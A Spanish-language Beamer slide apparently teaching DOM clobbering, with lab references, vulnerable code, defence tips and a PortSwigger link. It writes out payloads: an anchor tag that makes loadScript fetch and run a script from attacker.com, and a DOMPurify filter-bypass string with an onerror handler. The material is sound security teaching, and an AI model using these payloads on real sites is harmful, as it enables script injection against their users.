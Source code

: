 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{DOM Clobbering}
\small
  \begin{itemize}
  \item Vulnerabilidades DOM
  \item ¿Qué es DOM Clobbering?
  \item Los elementos HTML con id o name se asignan automáticamente a window:
  \item[] \cmdbox{\textless{}a id=config\textgreater{}\textless{}/a\textgreater{} $\rightarrow$ window.config = \textless{}a\textgreater{} element\\{}
\textless{}a id=cfg\textgreater{}\textless{}a id=cfg name=endpoint href='//attacker.com'\textgreater{}}
  \item $\rightarrow$ cfg.endpoint.toString() = 'https://attacker.com'
  \item Labs 87-88 --- XSS mediante DOM Clobbering
  \item Código vulnerable:
  \item[] \cmdbox{var cfg = window.cfg || \{\};\\{}
loadScript(cfg.endpoint); // si cfg es undefined, usa default seguro}
  \item Inyectando \textless{}a id=cfg href=//attacker.com/malicious.js\textgreater{}
  \item $\rightarrow$ cfg.endpoint = URL del atacante $\rightarrow$ loadScript la ejecuta
  \item Labs 89-90 --- Bypass de filtros HTML con DOM Clobbering
  \item Versiones antiguas de DOMPurify son vulnerables a clobbering
  \item de variables internas del sanitizador $\rightarrow$ bypass del filtro XSS
  \item[] \cmdbox{\textless{}form id=x\textgreater{}\textless{}output id=x name=innerHTML\textgreater{}\\{}
\textless{}img src=x onerror=alert(1)\textgreater{}\textless{}/output\textgreater{}\textless{}/form\textgreater{}}
  \item Defensa
  \item No confiar en propiedades globales de window que puedan ser clobbered
  \item Usar let/const en scope local en vez de window.x
  \item DOMPurify actualizado con SANITIZE\_DOM: true
  \item portswigger.net/web-security/dom-based/dom-clobbering
  \end{itemize}
\end{frame}
\end{document}
